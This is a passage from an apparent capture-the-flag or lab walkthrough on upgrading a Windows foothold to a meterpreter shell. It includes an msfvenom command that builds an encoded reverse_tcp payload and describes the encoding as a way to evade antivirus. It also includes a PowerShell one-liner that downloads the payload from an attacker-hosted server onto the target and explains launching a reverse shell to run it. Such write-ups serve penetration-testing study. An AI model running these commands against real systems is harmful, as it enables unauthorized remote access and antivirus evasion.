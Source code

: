 # Switching shells

To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create the a windows meterpreter reverse shell using the following payload

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe`

![Untitled](images/Untitled%2025.png)

This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly, and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

After creating this payload, download it to the machine using the same method in the previous step:

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"`

![Untitled](images/Untitled%2026.png)

To download it, we have to build the project again.

![Untitled](images/Untitled%2027.png)

Now the file is in the target machine. We have to launch again a revshell to execute that file (the port should not be the same we configurated with msfvenom before, as it will be used to the meterpreter connection:

![Untitled](images/Untitled%2028.png)
